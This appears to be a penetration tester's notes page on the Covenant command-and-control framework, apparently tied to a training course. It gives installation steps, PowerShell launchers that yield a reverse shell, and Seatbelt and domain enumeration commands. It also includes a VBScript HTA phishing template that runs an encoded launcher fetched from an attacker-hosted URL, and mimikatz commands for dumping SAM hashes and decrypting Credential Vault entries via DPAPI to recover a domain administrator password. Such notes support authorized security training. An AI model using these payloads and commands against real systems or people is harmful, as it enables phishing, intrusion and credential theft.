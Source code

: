 # Covenant

## Installation

### Install Dotnet

```
cd /tmp  
wget https://packages.microsoft.com/config/ubuntu/21.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb 
sudo dpkg -i packages-microsoft-prod.deb 
sudo apt update -y  
sudo apt-get install -y apt-transport-https dnsutils 
sudo apt-get update  
sudo apt-get install -y dotnet-sdk-3.1 
```

### Install and launch Covenant

```
sudo git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant 
cd /opt/Covenant/Covenant
sudo dotnet run
```
- Navigate to https://127.0.0.1:7443 set up your user and you should be good to go

## Start a listener

- This one of the first thing to do it go to the listener tab and click on create  
![image](https://user-images.githubusercontent.com/96747355/178054727-6633f276-24ea-4b9d-ac93-316f3a812d3c.png)  
- Fill the field as you wish. Here is mine  
![image](https://user-images.githubusercontent.com/96747355/178057695-41943d70-cefc-41ac-9396-bad4cd9bce56.png)  


## Create a Launcher to get a shell

- We can go to Launcher and choose one we need. For example if we have an initial foothold on a win machine we could use a powershell launcher  
![image](https://user-images.githubusercontent.com/96747355/178056997-81d23254-184d-4e41-a220-c758ea55d6a4.png)  
- Say we wanted a powershell, we need to choose a listener so we can select the http one we just created then we just have to click generate (or Download depending on how you will use it) and use the given code.  
![image](https://user-images.githubusercontent.com/96747355/178057272-f4d74fdf-7ac5-4aa3-9ad0-996578935f82.png)  
- Once the powershell code used you see a grunt has popped


## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Cracking Credential Vault with mimikatz

- We need a medium integrity grunt
- `mimikatz vault::cred` will show all services with persisted passwords
- `ls C:\users\user\appdata\local\microsoft\credentials` will list the passwords files the smallest of the files is gemerally the one we need.
- We then go to the tab tak in our grunt. We select Mimikatz from the list and type this task: `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\FILE-PREVIOUSLY-CHOSEN"`
- From the output of the task we need to keep aside the value of the guidMasterKey 
- `ls C:\users\user\appdata\roaming\microsoft\protect` this should list a directory with an sid value in the end
- If you do an ls on this it should list the same path with the guidMasterKey value we previously found. We need to copy the full path, and then we go to task again and using mimikatz we need to type `"dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\sid\guidMasterKey /rpc"`
- This way we will het in the end of the output the key for the domain controller which should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We need to keep this key aside
- We go back to task and we type `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\sid /masterkey:<PASTE-THE-KEY-HERE>"
- This should dump the domain password, you should see it at the end of the output:
  ```
  UserName       : domain\Administrator
  CredentialBlob : Password123!
  ```

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
